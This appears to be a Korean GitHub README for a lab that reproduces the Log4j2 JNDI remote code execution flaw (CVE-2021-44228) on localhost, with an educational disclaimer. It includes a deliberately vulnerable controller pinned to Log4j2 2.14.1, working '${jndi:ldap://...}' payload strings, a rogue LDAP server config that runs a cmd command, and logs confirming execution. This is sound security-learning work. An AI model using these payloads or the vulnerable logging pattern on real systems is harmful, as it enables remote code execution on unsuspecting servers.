


# Log4j2 2.14.1 LDAP 원격 코드 실행 취약점(CVE-2021-44228) 확인

* 취약점 공지
  * https://nvd.nist.gov/vuln/detail/CVE-2021-44228

## [target-server](target-server)

* pom.xml : Log4j2 버전을 취약버전으로 낮춤

  ```xml
  <properties>
    <java.version>11</java.version>
    <!-- Spring Boot 2.6.2는 2.17.0 디펜던시를 가지지만, 일부러 버전을 낮춘다.-->
    <log4j2.version>2.14.1</log4j2.version>
  </properties>
  ```

* LoggingController : 사용자의 입력을 그대로 받아 로깅하는 컨트롤러 메서드 추가
  ```java
    @PostMapping("/form")
    public String form(String ldapString, RedirectAttributes rttr) {
      try {
        LOGGER.info("{}", ldapString);
        rttr.addFlashAttribute("exception", "예외 발생 X");
      } catch (Exception e) {
        rttr.addFlashAttribute("exception", "예외발생 O: " + e.getMessage());
      }
      return "redirect:/";
    }
  ```

* 브라우저 실행

  


### 동작 확인 내용

1. 실제로 `${jndi:ldap://127.0.0.1:19090/run}` 문자열을 서버로 전송했을 때, 서버가 `127.0.0.1:19090` 로 접속을 시도한다.

   ```
   2022-01-03 13:16:52.526  INFO 14736 --- [nio-8080-exec-7] o.m.t.c.LoggingController                : ${jndi:ldap://127.0.0.1:19090/run}
   2022-01-03 13:17:09,993 http-nio-8080-exec-10 WARN Error looking up JNDI resource [ldap://127.0.0.1:19090/run]. javax.naming.CommunicationException: 127.0.0.1:19090 [Root exception is java.net.ConnectException: Connection refused: connect]
   ...
   ```

   로컬의 19090 포트에 LDAP 서버가  켜져 있는 것은 아니여서 `Connection refused: connect` 예외로 에러 로그가 남음.

2. `LOGGER.info("{}", ldapString);` 코드에서 **JNDI 에러 예외가 던져지지 않았다.** 

   * 로그를 자세하게 확인하지 않고 지나가면 잊고 지나가기 쉬운 문제인 것 같다.


## [ldap-server](ldap-server)  

https://github.com/veracode-research/rogue-jndi  이 코드에서 Tomcat 관련된 부분만 조사해서, 단순한 Spring Boot 프로젝트로 구성했다.

Tomcat관련 부분만 조사한 이유는...

일단 대상 테스트 서버가 Spring Boot의 내장 톰켓 기반이여서, Tomcat만 조사하여도 취약점 동작을 확인할 수 있을 것으로 보여 그렇게 진행했다.

**명령문 준비**

단순 계산기만 수행하기에는 너무 단순해서 cmd 명령어를 조합해보았다.

* ldapserver-config.properties 

  ```properties
  # 타겟 서버의 윈도우 OS 버전을 텍스트 파일에 기록한 다음 메모장으로 여는 내용
  ldaptest.remote.command=cmd /c ver > test.txt && notepad test.txt
  ...
  ```

  

실제로 해보니 정말로 테스트 타겟서버의 실행파일 원격 실행이 가능했다. 확인 방법은 아래와 같다.

1. ldap-server 서버, traget-server 실행

   ```bash
   # LDAP 서버 실행
   C:\git-mklinkj\log4j2-test\ldap-server>mvnw clean spring-boot:run
   
   # 테스트 타겟 서버 실행
   C:\git-mklinkj\log4j2-test\target-server>mvnw clean spring-boot:run
   ```

   

2. 테스트 타겟 서버에서 `${jndi:ldap://127.0.0.1:19090/o=tomcat}` 문자열 전송 후 확인

   

   **target-server 프로젝트 루트에 test.txt파일이 만들어지고, 메모장을 통해 실행이 되었음.**

   

   

## 후기

* 실제로 진행보니 이 취약점을 방치하면 정말 위험한 것 같다. 개발, 스테이징 환경에서 테스트를 해서 LDAP 접속을 발생시키는 부분이 없는지 확인 되어야할 것 같다.
* [rogue-jndi](https://github.com/veracode-research/rogue-jndi) 레파지토리 작성하신  [Michael Stepankin](https://twitter.com/artsploit) 님 덕분에 확인을 할 수 있게되어 감사합니다.  😄


### 면책 조항 

이 소프트웨어는 교육 목적 및/또는 사용자가 사전에 공격을 허용한 시스템 테스트용으로만 제공됩니다. <br> ([rogue-jndi](https://github.com/veracode-research/rogue-jndi)에도 이 문구를 추가 하셨길레 따라서 넣었다. 😓)
